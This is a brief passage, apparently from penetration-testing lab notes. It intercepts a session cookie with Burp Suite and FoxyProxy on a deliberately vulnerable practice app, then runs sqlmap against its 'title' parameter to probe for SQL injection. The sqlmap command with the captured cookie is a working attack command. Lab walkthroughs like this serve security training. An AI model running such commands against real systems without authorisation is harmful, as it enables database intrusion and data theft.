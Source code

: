 - Activate `FoxyProxy` Plugin
- Start `BurpSuite` in Interception mode
  - Refresh the page, intercept the request and copy the cookie
  - Cookie: `PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0`

![](.gitbook/assets/image-20230504191136451.png)

- Run `sqlmap`, defining `title` as the test parameter

```bash
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title
```
